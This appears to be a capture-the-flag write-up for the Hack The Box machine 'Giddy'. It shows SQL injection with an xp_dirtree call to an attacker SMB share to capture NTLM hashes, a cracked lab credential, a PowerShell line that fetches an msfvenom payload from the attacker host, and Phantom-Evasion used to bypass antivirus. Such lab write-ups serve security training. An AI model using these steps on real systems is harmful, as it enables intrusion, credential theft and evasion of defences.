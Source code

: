 ```yaml
---
layout: post
title:  "HTB Giddy Windows"
tags: HTB, phanton-evasion, Ubiquity
---
```

# Recon
1. Nmap scan
```ruby
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
2. Gobuster
![](https://lh3.googleusercontent.com/BI-edrIfyhlFDnmPTGTKrtJ2vQGwXOGjKafUJ2kO5f34UGqlWhoj-9ScJiwiVSFPNaMtaYaMOLWwOREWJs0y8WgWvT_oHBXBDPvu8TqC663NrCrqIwZYZh_xQnNMihwmLxK2_8mcZVDBJTK7DZaYfmMpQWo90psQloOHzhG4LnHaReGebpJM-vak9rqoVHh1U7l0dXrBRtNIEIcLqKY5eBwyVCWGDupR8BY8dEGJbCz0kd1EDdtKj9yVaOYlHfqzgfLOOP3mfGkeiGiMOzl4zoOTxUsPbJqRqXT1x1dFlnoEwVbSPAu8J7CNLYincbEtqWNWrWbHuz85ebqLPPKWVANTRjX04cn4vb5nGE0E-7Amc-S3IByvo7_tNQdrw7K1E5ZYyCEPi2RaCLcIgQeZbe_DPycx_kzhYSGEhrN2tXTjKLdmNMd6DvZT13Sbe1Y5bWX0Ym4kDbIJUJjmU0XQiFEtIm4E48_ZaZWXtjDjbKEKeQ1QqCITD_3W8EDqk1mDV9Eewaj65Uf2pcux2UJ5kkuVhsYVEBiN9jFO0oI7RfyljguHAHQIiAPfRrWBkO86sGRQZaD1uazfZYVbhGpVZRiIJ2SiKKf49nSES6BWrbkLdPpKJz9-Pgd8l_iVvoMc8rH1zBW1HTEc0nz8DcONs2adeQ8qK1et-rBiRwmy_u3muRpEg8DUYzA=w536-h242-no)

3. Under the remote directory we locate a windows 2016 server access page
![](https://lh3.googleusercontent.com/J6Oz4XAOScSw39O-a6-KMkLwsBofcOeort1WD9Ik1lli9LyX55oQId4XiZj6dQ2x7_ICnke_NpQgWvYCZApPMK4Nh4i5Egos7Y_KAEWjPU8DwiQyR-C7YCpqHknkMNeIp0GNhPJru-Q7x0bDVNaWxX88UKC1LLb3CHujrgkP9fwbnbezU-ZcjbRJGaeKwGUU-C3PfPr6mhiyb7_uLEgiRGMZ-MEgwnsOM9lkvjRT6_9KM69HfCsK6_JE4e3yQ5P7TDrNx2Okh6ZBAcFaeN0Zbxnfg0VUZZEaHTutY1rkG9bBM0wsDp15VsYj9aL8xJCMcww7FML2zzUlKMac6SkMQUXW1DADbniuZRqAzcI_eKUtKKHHyD5wai5iYITnEiUvxxdywY447ApAkoikzvwqMYKx1LvMu2zinFkkUOTNeALFIb5k30Ih6P-a2WSZuja0snQ7daCjkZiGjAg1BHRgEL8Pa1T5Wz1OTjlME8zJjSTXPGvStvcSW0hq9HjflqMFrZRFXGuFxaSt9IbsoyAgfWaEo0KuWEPwA5D4GJjjiCYh2NcEb8Z81ENgg1T_OTjm0iW7HzUDIvM1nH7pmSz2VonwJVXfZrxrO15HBlv4eq1uaySghgWL2U5hKox-AqEJ-s0vbubO5qREwqAaG5y_o9OkoiyDUKoRkSLwzWPgYmY02U5a1V-HKzY=w541-h491-no)

4. On the mvc directory we locate a web app running

![](https://lh3.googleusercontent.com/OP0WSgijUfKtz7ctVxeVmwpPFXMdRL873voJBnvMfcWmhL643M1Rnr4kabgOOe-oZuniZBdQmlJTIibsZTQYz7z-jBrIrLvT52gBZKt2r1_ls1S1BfQrrimq-4g9Cv4p_27evdQq8EJzE-xM-AeXPkMbun72EBpUirDiQd3A0q_03_HAW-PQve9wYCHhdiCEyjI7KAwLcp3faC8jcLVsWwJqHujrgNdBZr2YV5-U7jQclyDf4oqBMSKeXYJUAC07itY_02QSSueyImCleITGS8lvArh0XmLX3VvJv_6Mn4t-GjHgGun1JJN8oBnyErNdm3H72tQEMCTCbXj5bdV-_HR_nkQgpbh3q6yZGGrxQekYovBEubHvu18hSKnNPrA3yx_FDzP2CuCNGquTcZ24rFq_-JfCsQL2j0RVK1Xwu9EILvR94bDPX68WysVUyLCDqc3TDFAhDdz2CgeRrZpq0L98j-ji5vWigb0pPd6W2mIVo8XmzE1AR6kMBA4USBFQ1r-G3U0ZQyQGgj1jq-22QAkcrs3IPJCn9U_7ztRwTP7FNn1sBpbRwh6Oz-Qvb6nqeQ-GuQ4sCvMD-X9b6ak0i8LLaW1m3qZKtGwDdA_TW2536o29a8aZXjOoNOJkoVtCxhn2MkTUZOkY6cJujOYKMi4YtbMIvtSGR-WcXAnA5cdpF1CnbkVszb8=w299-h539-no)

# Exploitation Method 1 SQL Injection and BURPSUITE
1. After a little of trial and error we find out that the web app is vuln to SQLinjection:
> caps--

2. We start Burpsuite and we made the following search request to the server "cap--"
![](https://lh3.googleusercontent.com/FKdkzadYk-1azIEIbC2GZSkd5fxsNOqhCyeEkTkxB_4Yx941c-OZCwai5HPN18yS0VnnRgcA60eOt0skhJUp78KVDgQpB8XlL3KAGvW5jEK7nuy2jgvGJqDMzqRQQCLiUOQTzQtiImFWzVOW3XeiaK6D5nivyPfD8RqE35DYt5KaaY-cMix-WGtGUXu-lO7Ox9nMfH8mITBwsSrtftWX9fnjWt8Nv_EBoqH1ZVIk8pkvKJn6-CvPBB_8winhtT5J1b-6OCVvmPmsayglUqGbTyI2hLCLl2_BAz83NvF66gXTflmLiH-54jQgaIwtcSh392ju9Ki08_ya_irKErB7A1XB9_GJMMEOyAb0N5SZi_WD3NnqRzU85igPoXQTKHciuu83Mbxlhh2ptSFDFFuuaAiTbYtN2H92k6sPi3zRedHk4r4EU4Cga1yqekZJvqjnZiv2Yn0nl7eBc2Jf3n6wUCyE79bl0euXwVb5xYA0fb2c5UqX7aFrwvtbQJ5YUoxrKhTmD_gVNowlaKEs-6u1CG0pN2hhUwgnXwBKbEidbpW4fwgmrRifVxE71OA5J7sS5OPSZm6sKLcIb15jFgM8wfLvrPXvYzl4nCDZSo8fbK5jKmDCvOZ_0oQESLLVP5dUC7imqA_EYS4CLoYlZjuDdifwFGQl_HxLz3xdYRfYMVEXWGAJhk4AkMM=w619-h263-no)

We capture the request with Burpsuite and modified to
```ruby
' EXEC master.sys.xp_dirtree'\\10.10.14.34\share--
```
![](https://lh3.googleusercontent.com/JgzHhVf8_J_jIoVDEp9k3eDrOwFggF0FL4sdq2mwJZs4G-02v_qbmFfzf_wteAwV7TEo3lV8qciz992XRqJmHbnA_HWRLWSJMfP6GtXBDe_u6dmlQPrPS7cks-PLGkQOX9sarzCObJe-ZTxpQR_2NKmTnpHlTyL0e5Rdvue4ZBR2p3DAppMIuhFMVAxL2ZitGk7R7979KzBKd37hFRVmuV7bP2ImnMs5_UIz2RZk7aSC1-X42rG_fqyXhppHTSCLl9zyJPi1LMSWCAoc5SXn8eOMz6jL2aj4hcUjh2Il5c0fMj1_0GRVJJKy0AQH6huvbjx1qeJkkx8mUmpbCRTJVanPHw5A7Cr3TGdbBtIf68LX45bqsQI6pDOhrEdSeyOH02lwgiJXyINH99Br7lGSYCUhhawlfJqchaTSXwjPazzz2u34uZVcbvP5qwELgHHweezZu_sa2BAle4YDcfjDdsw_Y1LdcheJi9xvuIjNYY3-H6AUkmxIUkvV94gIPxS5zNiOt2NgWkPctBCMYnXSdlRAtKDXRWiMRQYxcb0Hms7YfhhaATnJWa7EymHlWZYS0kWWZee2vj1dPNB6u-i_w5d02BEuXEilI6wrXF8ty5N84xPiMryWwEJ26UZEIrIw0M7bSQJzOhtjCK5CjIklYCGMS34VfifD1-5koUJM7AY9ldrkYi7UN2A=w502-h45-no)

![](https://lh3.googleusercontent.com/RfSI-hXdwgfsyrLFfiwxWRgtReY_4q5HLxjWxmAy0jN5AYfPjQ4CF-uOndfXwYdjdgN8v16n6d3VbOYRbrgmeCpC5Lm-IiD7oryKIJ9YtOh5uShrOc0Z1cI42y1-yx0H5pHD3cKC8ZtsKU7tmyFaAAwLzx_je79_SimX8kgVWMmckZi1_voGMCKCDF3lLwLGqhdMkzwsj1OttU1yZzVU1CZcer6hArp9AM39m4Yh4HHtvxElTliSTW9G6RixZg5_q9wj1IrUvDZeOlpEkLoKFgyVWPnFlv2-NUNV4FH2Gb9wxzP2KfybS5n5092joMvGOIQSwgvPDBFgW7bZyDlp3QqtRkWqKeLvbZQEZ7tnVMChVvbTAD1wySMxL4W4mrp7rx_7sKIxKngL3-QSic00DjcbKzbcKh03SQSpJlS30ptUCB9jQSjiG6jHme0tHrnRw1jTGU9dz7qzu2fRFI7gzbgqMgg3GCeoXfjYwBBoDVqhWfTF4rEBKPt_dBr3ivuBUNp_6bZzOr8-MhQkIwOgvYbcAeq0x_ehYyGLed5sHIamV-w2n0XSUV1YZCueZ_NQz08HFOz3mUy-yL-waq7HYb5dKIYuNg9vjdzvKpdJa340GJMse-PLc2ke9Gm3oufKIyNuliTJkhl3x4CmP9uar9nCNUWtnGXt3Sg3kEb6Ln26KbEfq8irFGE=w748-h42-no)

Then we forward the request

4. We run Responder with the -I tun0 option to set up a smbserver to capture NetNTLM hash
![](https://lh3.googleusercontent.com/7q4nGUHEgxE14oi9mRAeGS0V1pjZEhHBk75K_JQo_PmsQItz9yiy4QJXmlWkO9eAE_YuLs5UbQIvQoOWuvB3og7S2b0jRYTbJJi-_EQXAQsp4ILfUFWdiHKJ4slpJ6c_fIA57BSHtWDrLkJ3JKfGla3-bduZ-ay-Aruy6Kxw1ONNHu-wigYF2wxFClBBm8JkLtW9heCYtGEx3IljmHwF7lyvQ2vtZfkzH0wOPKNQWGSScagJNz6ohuuceWRPRp3PKJUqBXATDdVbh0m_MZkNva8ExDVaepuLNUR3XirD5lzVLzasU4riv3fzPzP16NziP-1wMkfJmE-rEzNObmo-wtkiSiTv6L1HII1-kV8O-GrDNYE6ZcFuo2efTr1HbRrUZm38NxaBloymbXJLcwbRxVwAuRnzIq2L6XSY-MJdCRTwVVFBxsa4HZBA7TpD1sQ0r45jqLDC-xywXXvaiKSa7qWdBZb9U3Kqg5xHya6aJ7s0A7bpjRJsUgy8R-l4261GrUBx-RrO2C6w2bxzLr3GG4ecbsYm3MUr58jKS0ddYks-Fl1nFAm7zRyummASwprCUX7A1WK9QRLkFm1KPC-i0qyQ9mAp1BRiXE2FCdOxZlJNBDBW4NQeMxON9Ow3DfEkrxbRJfAxXGfIv_GvR19iUaiw8fkIPmEjNkp9_vCYCLlMIKgCN7V4_C0=w539-h457-no)

![](https://lh3.googleusercontent.com/ph6I7xdJhHJr6bcILHcBgbbMQ9ZaMrlLPNlN8e12uEiVJo5MTQy9YUS6NvbFsyiv5VaYmMj8JIDB9SBaMCcj0Cdc-BWzfpeoUYJM8_gqwGKLa9BakOILWb-A9kDYerni0t4BV6FHH_G-uQ1PuasAozxTjsFXezv2a2HHYUO2ddSXJ1UBnZDxWw7jlG0_PiPFJJjq6QddqpiJqzk-QHDCgfA5l2tiArxATAW41U-pAO-BOqdppe9AR0z6fM43r-FojICbQUSHYl7QlJ6q6OoqwzI-HPKYZyrvs-_jYiNx8bCr-9nok5dwKkraCs3gXgTay8RexTh5y28EIugsLwIdISJbG3f8RuOw-Rt9ypRHiwS1CWLF8Jt-iX5dhtRjquyy_7d3Z8qb7yQI4KXfNSAPIwp6Taf-2MWsQOn7n2AXVZZwh-STuIOPWsbsM2YJVMj-TT1WokFVkF32UxRvM9Xq3NkFERX5cqyLpU1SLjE99PzCCGeGvJkyZNABemguLZs-HzzYdrRZXNsUdBS9EUPp-wNiQJswbtNDEJgv06qiih1dDowMNmCH_jyW4bl_aInZ2KD0dR8Ali35hkv2dn_LfMcJhqMyf9QuYiFGoGEoNmXmldjsLCwpnWPG8Y-zMb8ktDQmZZUPLscXFnKCXDmDOBalex1EiZiZaV2T_55svD5aMH_bnpMzruY=w731-h316-no)


5. Finally we use John to crack the hash
```ruby
Stacy : xNnWo6272k7x 
```
![](https://lh3.googleusercontent.com/Ld3rfusYNEDBKzkLNI7KzREgoy5dKvJTVa_xIDdkreu97y0MPtE5U5eOhsWU_FzSoMSZiZrln5FeZTJDzm654_SMcJ2jjVL-0NXBd_HBvGDd7y_9qRHYe9ORM_j-5uGhWFGFmZ48vPk0cR90n6Fudfq-76u4OlmqNXpNuLIcxiOdIDRiKps8c0XtBLe3JPshXp7VGXCRp2QxJp1OdROSu30FUnKvovDy8FCAq-irxKricAqo4awKiFA4qcQAsPzMFPllg0D65IHQ4VyCsZaUubG1lkn-hJ5RGqubq3aEEM4oFMGkSSCU0AmZ-YcsMgMq5t7e668uSWrKB77zF3LXiyS9jCojkSNLLXiaL-lVGQU6DMfv09_HKS6oWqKs8fkaQV-jQTO4x7t8W9HioLklHc8fl8kbhAdCvQ4lUtaYEZPbGEYpjskPeyihYado5t5qGaRhP5wLnaGyEf1yu_ymdRICau8tGtMzmk0_1c71BwbAI-Oqi3tpSKF4E8kvDH3r47LeY0g09FI7zNcyNMI_5d3OjT6USIVNhf8JqILbZpu1vx01fLCKkiimyoj8Q7kGOYV3L8QLo4O0H-QdkRB76l-AzjvhaIZXf5guYi-aIWtPSi6qRZKYvVB6D1ZkvHYB0XJq6iscg4wf9bXYsjZmkfXDrOCK8hMkb3uOVWlE1WwUx4Dfy-LSLjY=w966-h213-no)

6. We use the obtained creds to login into the remote directory
![](https://lh3.googleusercontent.com/yDD038JTEJ9y1yOpW05oY8BZJzHvb1XP_Iu9_ymnk7CRgCnl2zBxFd2yZaJcg-x0Xh6XJ-OsyMOZaZbhfb11K7WCEvYeEKyJkmpkcyzzvSQbF2zelxiQ15FtSqS6Wf_SC5IX7e8rFXnalsOn6WBuD5cx2OOEQjrn5P08UrtPZmdbL4oA2u3ep8RfkOY3Qg5EGo8Tp4OmPCn1VHiqNUaGbRFo0PH2i5frgng_s6S46w1jJ-PYZMaCkHYgDCoRsVTnqvBdPukg4P8lLmicNOWzboFAjkRc_LKlOMtHpUAffNgQDrCOlg2Rf8NdwfmrDT_rcavv8xQZR3m89GCOy90RqOgTeZaA34WB6yy4FkB9ixQETRabyVMhwPgefzOHR27KKCM-QWfqK6j-r0fUYcnvin68w4ekUJnlOvEes3DwTiN3s3-IjDqWjRbEBIBEEibr2tSKTqw-KnYROR_FOmaKzmx4h8BZJiMPx_YafbKR1GokRA8QWCQLAaZDjWuW77zw1bJuL5HqWb62w59WyQjbfbdvRDz5rIJ_bIGUoo1ZUey2-s7wZuSbveggg_o9-2c-xpuD8s4Eu1ZUidzVERWaJgr0IbIUeP4pczltoE0QN5-GPHfPpR9xnwxW2TrhSr7KidL43gj-9vWtIa0DiVL8D5cQ8wMkQAKx4SJYOyFmvOFnTEZ8Mt5uJeQ=w535-h449-no)

![](https://lh3.googleusercontent.com/Q5fYcnepRnM6I4jp6TNaTwG7VjBhqhuKS84h1HMQ3DoiTO-SGhT5ZlcBR3un5pdD20OT4vhvybNQWFbotC14jpLh8wFkSRpYIBbmO7ukHqx7w6zrIkGJqqT1_hTFP4gHwijc3alBUTM0kEa1nOIhO0m5Tb5nXr5KtWduqmKhT19HFIFASBXpagpmzquBaj6DIa_QW-AqxXarzLRW4D5iBXzGZMA9YQgHU3mLgFmhRbyo_NrVfUGxSDIWsmdJmBjP_uL6_exCuksc0Xl4ijh0mNNPnsVW6LtuW0N5Lo5vkUIy_1bvHbHsc_mwg6aHxhtYacGjLGFjVqz-CZ_5hxQ7SkqG4NpwKZRzuuwZMwAnlwcOdFk_lzCgS3KpFX61N4BzavGjLhh3KWLVzpFir8VMkUyuodAj7fW_Y4S-pCV7idZOGzIRG2wUeUtAq5H435M9zEG7T8cLvSHLwLboN409GTzNWzU99oP_1xpvxVtHY2U2mjjTKZiYfeEAYROWiMlLPCXzMG7ewWLgum8Ze18fxXZv0Xd4YHl4_3Z8vcvAFUAEho7HZ2nrnuEgEFq2s9BBDFNam-4tZB7hHn6vUYlJSYAEUgO_Xx97ALKBLOx35cm4ONqxo2l5ykoLXManzSOtz7nK-Kol-pQkRr4EyXYCRnfHoZbUQ1LXRkpId-HDA_R4jNksDJ7siwc=w741-h513-no)



# Privilege Escalation Ubiquiti and Phantom evasion
1. An find a program called Ubiquiti Unifi Video installed. this program is vulnerable to local priv-esc CVE-2016-6914
![](https://lh3.googleusercontent.com/jPghooY3yguXMcrVvmA8LEc7I-ZScfzCNAl6X1F5dWkI0_c-G6Djplxhw_Y4EOskSCNg8W8APtKfhojobEGsWIcQOxZgFo_xqYgMkt1cF0PnxGJg2RmAbWSDz8JTBkmGupYccgS2U-zpk8hvcGJOCN5cT2z6vhehRjCyfzclK7sQh0QAqLa5uYokB5-oD5_x3nHws5Ld8spcRwS0Vaeq5WrZTpcZrJaPsZ7BI6FPm2RNwAeCSAq8r0qvpo_IjExIy5xuIZWingxMFCs-B82uK3IT8Gj2OEVPIwem_WdhZaV_vwXV05Bh9LLXQ6C8ljQovFYNUqVaMlZd9sg0yLG8HuVdESZlzyHqe0JPkVjnd4U9KH83660eCdOjhn37pA_3AXJ2sshZiofutjlPMFHDr5U4xwVzZgzw-RTBg2CmQOHPbZPS4H5Hd3KiUKatnChfuynJyTvkE5IaAY95b13NLAElYjKX12j7lqzPwaj6wevfHiCBAObfgI8DeRc7jcZEZZAZOYWW5xvpCoxJlkRpwfvszLKDEQHKCn-vQPRffZPIcvHMeeNcf4WesJYJx_T5OEjoRsuHENigT-99kXGVxhN5U9sLk6XDB4nuFL3_0zrRYbpWXB6n6H1Bnp-tcCsRKCy2h9RTFLonuzY1nrgKAAxVIFifGNWQ7geocadX_CDjKmiZdLz6_uk=w742-h365-no)

2. We create a msfvenom shell and uploaded to the target machine.
```ruby
powershell wget "http://10.10.14.14/taskkill.exe" -outfile "taskkill.exe" 
```
![](https://lh3.googleusercontent.com/e4hKPGYAR4GPRWmWFeNhrJKSE3gmIQJ9T2adSWA3mJ61QoyNQLaiMy8tRG2sp7zpAgM36qyTPqBTdrYDXSlLbDPKUKa6eEY4Etbx1Ym8hYz7epeEL8kO6oTmGl3w0IHkZV3oVE21o8Z4oDDBTb2ef65swOkbhHt2yJir9KrXNUXa9Y1r3AbfkpFMsccbPDzAh5v8by_6Wrh9oTmkrDUuov6vGbuKWa4nQhq7nG-stdb2a5BoMPLjyZIgbXnbQlz1VsBPvu4Y_c36vLwVL4saWDautFm2FGD4M1Qsz45NwvX6BL3Q5TqZKqXuMn656JviWXEvGimiTvYER6YGMxHG74-HWu5KwbsFLQBR-b4rHesXC1_w7mudRv9ILBzlfIQ5y4W4fYIyDxwdxaArB8atBcHCnV7aGV1YaB1PssEHv1KLWYJgZbcOLDivlrsXb_Hpsaw5KRzorZY2euBEGfadgCUaJQi6OvlhJS6CNiI3fGIMmcKZNbw5mG4puPpiB2xrcKg5bKX7JPXSIeatBQYSSfyRhk5Krw8EXUIA9NaOjQPDSmhwrhk43jTpFCeINllvDJkgQKGKFV1ThUBPZeYlt5DyVrtCWofgZamnughSmklLZibDI4QagAuu_8cQLUXANqOrj2K5ji1Xo9tIDohXB8-TMJ3AKLsJ5KQfQdm6H-5eelVSr3DOwpQ=w447-h387-no)

3. However antivirus detects our malicius shell and blocks its execution.
4. So to overcome this. We download and install Phantom-evasion

```ruby
https://github.com/oddcod3/Phantom-Evasion
```
![](https://lh3.googleusercontent.com/1ZxmrJhGt1Rj7O6leHhEHYFKUCNIZvuILqErnSWLGdHm9Q0fl89ax3oD-Ec2TiTg8ZiHeq5TXX1rtNkTxoTRoXb-Bld7gCfC58z6iD9ceiAV0-hPOxwngcVD-Bp8zGNnyfd75boGmsQgtaZyRAu5_50rzMktFA49mBj6slFf1Qjj0VUCiFSvDnBEruau5vVTM-K-lqTMxe1Fv7ff56f0WS9512qmmDN5Fn6piI9KwSU8wH4KrasEygBITP-w12j7jDv6MSV2a76Onad4oNJ5wCqkILv1cf846BDa2AL5ufYe-gZiAt55y_qNXxot0mLGfHKWpWljYaEh4hsKS0WAflUryHGYtV1oHvX232DyUVXDUJLXegNThfrGa04puTB9YAq6-_wt7i9fy-wxQRQL4YiR2mrb0dy8cXjwlVeu_0gb90qUnP4wYJhvbU7joJQlHck_2tcf7p815OeV-t1C8-Ca3VYLZSxkixtTRGbTAlPFISSiU-6IYAmSpL2AAUrXIZIhYZBKCZkKqDUaUzCKLrj-u5O3AVNSwU3riS-NXb7M03Gk5LGWQJ7FxkBMv5K4cM1xdkuxCUAE7TpxsB_4Xi_pDaUlS4jbglhEdIMfve-oi45vtmu2Pqd8QzBK5zUflCE6x8c9hRRD6wSalN5fCSpxxo8_TZo49og71wmJjxKjG4u_Mg6b5yo=w758-h456-no)

![](https://lh3.googleusercontent.com/JvQgPIuekgZ7_aCp8e5qNuaepoCSBvAS75mvKRr6FaMPPqA1JYahoOHUbya654H8_8e0biT7Cr3Ochk_IGcJUJnYMdP6zJNHpnpbE89ZxZ_WtxOFu0rhICNAswwWpEMR--TYMDxzaAg2GK9881VE-zxmEuevEsfuv8FzukUI3azBAtgVtcgUbRCF_ktx3sOj7xEe5vhLS7YxPkEW5pQq0VHZ-yEPFe53Fadtg1gFylg7P_EGBcoEO3dInTOW5fXYA7ev7NSz4yUxT3lqZNk7YM2MWhMiq4FMNtjMcGBWziORjE5-mHYRJpGHngQ9eefrIWr0lKyKAOmU5_iGNIM56cMyWAUJKPieYU8uvCjllmUK5MWjeqCcRE347S23KHY4LZDPw6GhQqX_ykz0K826z_bnr_fh_SDWaEOeWTHk2ggV3kokMtUNaolw_4HAyAB5v6cgvAwo2f5ivjmAS2BXSRRfC-fB7C8Q5RneBnpSxD6Kh57pjP8uVS8pfjJDteBvEYRFG_0jW3eKNwAEh4h7jHqWnz_dRRNw8hO5JvtDpC7y34wrAjdFsJHMz-tn356p9GqsWJncI1k-wP5AW_Sopn2N__sYSmEOn4S98Y6omX_iFVbk2WpZc62qvn3dJvJOLEawX05w1E8Zgkvg1GSegN74Q9kb56iMYwsr8y1CAPiJ-045Ymey1YA=w545-h262-no)

![](https://lh3.googleusercontent.com/poOtQCySlDuqcMCqHgnTnP5t-8w50fAk_hnypFKsReRwGCuw1nSJswVz9DbAWbRI0ffJ_GrMbmA8N-S6KOwmRobesY7007gd1HsgHnIZxHi9lkhOpOeFHct1GOB-xKXGlxPj4ni47UDMsba_DnS8eWQiXKf96mLzxFre_lys2WxLOu0oHMX6THXXm6q-7N-vs3Pjc_xFQKatevarF-D1MehIXlY4yxJUxaTCr-JfzNSLk5QxdHcz4CjD2946QQXIETTdsgfLAWwNNalpD5o4vSkoMRpgV0cbE35P1AuOZwCg4CE3pmhESzJj_UM0jHOv7l-rW9TWukTWmx99e4xlD7p1YlZe-vM9K7nIFKAuOZwC0cRQiQiI-YwPErUq-7oBIQdIuhQVwivlVGd4p9MbOqkjxydfr_PW7JgKhmPrANta4uQ2-k8CZz7SolLe2B6wJXXF7z_JkLJJl-PryDpDGwYOLB7bpaGI2f3F65h7qNmSxSY-5rfuEhFkcC0-6BwvZPR_my6vaGrJc9FW5wKLPcuDoB7YFEwtSxwaxiceXrMSS5AOSGYke_19RRyMWpL50HRwyXHTUcO4xNKfk2Bg8fh-agB0iAEXuZkI2Y1FWZh-ZpvTTrOh_ybqj_8BiPi0-tKWujxSTYi062T9VxV_uycykAVESPfYvQ83NovBZP4tTjxAt804T3k=w748-h299-no)
![](https://lh3.googleusercontent.com/YPgKlq21fNw2vIMg33yvP9XA26cvybgzgQYOR_tnaArTcEP_TMptEb2J8gxulQyyKctYTmURd1trE0ZOQ08AiyqNXWqw0hXtmDvooDv52MNDozE-a7z1QueTGVffOGps18nEtnFj7dEG2XS_dEc5-sGwv1ri4qQq4jp9Jd5PdsGv49XuuPwPh7SK-M9W-tOfpp28S4Sdzzlazu9996IZ31sdvIJueHosprbambqqS3LDv7hVcapWT5CkCbWIpKTbKvdm2mt8w1BrX1gT7PvfrEIUiaLbfHmXM5or3WGYo1Jqz0hu8YvSUtGJW1qP0AqTLcLf9AV0EH5yq5R0BvjTgpyXTvpgcIjKyUt6e6SGv-YsTNMZ4BzaXQTq5w89vvJbW4EW7Pld5r52Re5MFnjqA_8Pr9G5lojeiPUEuDWm4L9QXc6iL3_BAyz7XQpSg-5qS7dbtw_tuZu2XyVluvpcaDabGf1V_YV_rR7XvONtFwgK9ae-RoOl6FYn81Jfzf4yuVoM00HIOzOPSr3AzRYmO8yzDEBcuOsM9B1-pQaTzgFqTox0QDMfULga0hjjUEkcrjpiezQnTekVNUh8tVZ1Lh1m_DQM8NvNDJ2mYcCRgnhNCMinmgNmGi58RkIQhLhyc1I20DbJkB7SLzlXNAiCaSHwIUgzY1GE_yvNAkVPa9f_4jHU-bHWzo4=w824-h452-no)

![](https://lh3.googleusercontent.com/nWKEsswWjm6zdZAcAdRTsu83ToTSgU6pZZpwrRYPs9MgFDqFnBoUYWZbNj-lxsi1vEw0FVoZMRUHqgrRShMNGhT8iOrOEXOOmhne-tLmzQv4L3q_XdtWyDiO3w1FqphtXtcuRoNhUWOSvYyTh6F1ht6m8kteBpjKz9k_pZI8_Xw1XjQqd7LvXOCLYCHpByWhTvuLXOxm-HegFM6NLOZmbdV61Jz-DaAdmCiSp72lbQr1YOY-y0OX9hk9nwn3tevnBKFDDoT6u-Y9Q-ItJl_IIQy8euAoOqXLB62ajo6rEBDuvzv_nAhjorzupaPz4-XVjr1pFmG2ahxzcZO1Y6FLTIZ-r412SXk3dWkmvmBQzcLrq_HZlnl9hg6zLTZcyyEKBVp-LUPz5mrJ3pQECRL_YbmaIi8MmNJ0GRJW_NlchlhBFW28-SKX1P6zaeC1q8RGeMJyGnXK58dfgA55ziJN8TAmfw5uz4iMYGE6YXJNYpkvYGKBb0QwjhVxprVn-omFmZUTWjWnWvlZkG25pF7q82Pfr2-tw0pv56f_9CNlzsbdaAGRGzml3O1Xdz9MF2G6rY8BhiDnDmSmGPakl8kcK0mhFKEIZFkmxY3oFQyWzSvHs2g8A6P0dMeN0lpa9iDG93TDP-MSd-AO53i8vaTertnXERoGLXNE0d_rbcIiPGdqfvFk3AyR_jA=w674-h517-no)


5. We create and upload to our target machine a x64 bit msfvenom payload "taskkill.exe"
```ruby
powershell wget "http://10.10.14.14/taskkill.exe" -outfile "taskkill.exe" 
```
![](https://lh3.googleusercontent.com/e4hKPGYAR4GPRWmWFeNhrJKSE3gmIQJ9T2adSWA3mJ61QoyNQLaiMy8tRG2sp7zpAgM36qyTPqBTdrYDXSlLbDPKUKa6eEY4Etbx1Ym8hYz7epeEL8kO6oTmGl3w0IHkZV3oVE21o8Z4oDDBTb2ef65swOkbhHt2yJir9KrXNUXa9Y1r3AbfkpFMsccbPDzAh5v8by_6Wrh9oTmkrDUuov6vGbuKWa4nQhq7nG-stdb2a5BoMPLjyZIgbXnbQlz1VsBPvu4Y_c36vLwVL4saWDautFm2FGD4M1Qsz45NwvX6BL3Q5TqZKqXuMn656JviWXEvGimiTvYER6YGMxHG74-HWu5KwbsFLQBR-b4rHesXC1_w7mudRv9ILBzlfIQ5y4W4fYIyDxwdxaArB8atBcHCnV7aGV1YaB1PssEHv1KLWYJgZbcOLDivlrsXb_Hpsaw5KRzorZY2euBEGfadgCUaJQi6OvlhJS6CNiI3fGIMmcKZNbw5mG4puPpiB2xrcKg5bKX7JPXSIeatBQYSSfyRhk5Krw8EXUIA9NaOjQPDSmhwrhk43jTpFCeINllvDJkgQKGKFV1ThUBPZeYlt5DyVrtCWofgZamnughSmklLZibDI4QagAuu_8cQLUXANqOrj2K5ji1Xo9tIDohXB8-TMJ3AKLsJ5KQfQdm6H-5eelVSr3DOwpQ=w447-h387-no)

6. We proceed to set up multi/handler to catch out shell
